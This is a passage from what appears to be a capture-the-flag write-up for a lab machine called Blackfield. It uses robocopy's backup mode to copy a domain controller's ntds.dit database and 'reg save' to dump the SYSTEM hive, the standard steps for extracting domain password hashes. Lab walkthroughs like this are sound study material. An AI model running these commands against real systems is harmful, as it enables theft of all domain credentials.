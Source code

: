 ```

                 /S :: copy Subdirectories, but not empty ones.
                 /E :: copy subdirectories, including Empty ones.
             /LEV:n :: only copy the top n LEVels of the source directory tree.
                 /Z :: copy files in restartable mode.
                 /B :: copy files in Backup mode.  <-------------
                /ZB :: use restartable mode; if access denied use Backup mode.
                 /J :: copy using unbuffered I/O (recommended for large files).
            /EFSRAW :: copy all encrypted files in EFS RAW mode.
```

*using the command:* `robocopy /b z:\windows\ntds . ntds.dit`, the copy is a success! :D

![got-ntds-dit](/assets/Blackfield/got-ntds-dit.jpg)

we can then use the `reg` command with the `save` option to get the `SYSTEM` hive:

`reg save hklm\system c:\windows\Temp\system`

![got-system-hive](/assets/Blackfield/got-system-hive.jpg)
